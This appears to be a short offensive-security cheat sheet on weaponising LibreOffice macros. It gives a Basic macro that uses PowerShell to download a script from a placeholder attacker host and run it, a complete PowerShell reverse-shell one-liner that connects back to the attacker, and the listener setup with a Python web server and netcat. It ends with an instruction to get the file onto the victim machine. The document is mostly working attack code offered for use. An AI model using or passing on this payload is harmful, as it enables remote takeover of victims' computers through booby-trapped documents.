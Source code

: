 Libreoffice Macros
***********************

ODT
#######

To start making a macro, go to **tools -> macros -> organize macros -> basic** . You then choose a name for it.

Shell
+++++++

To create a shell, type the following into libreoffice

.. code-block:: console

        Sub Main 
        Shell("cmd /c powershell iwr http://attacker.i.x.x/shell.ps1 -o C:/Windows/shell.ps1") 
        Shell("cmd /c powershell -c C:/Windows/shell.ps1") 
        End Sub 

Make sure to save it.

To create shell.ps1 put the following in a file:

.. code-block:: console

   $client = New-Object System.Net.Sockets.TCPClient('attacker.IP.x.x',attacker port);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()

Dependencies for exploit
++++++++++++++++++++++++++++

Run a web server and netcat.

.. code-block:: console

   python3 -m http.server 80
   nc -lvnp 4444

Download the file to the victim machine, and wait for the file to execute.   
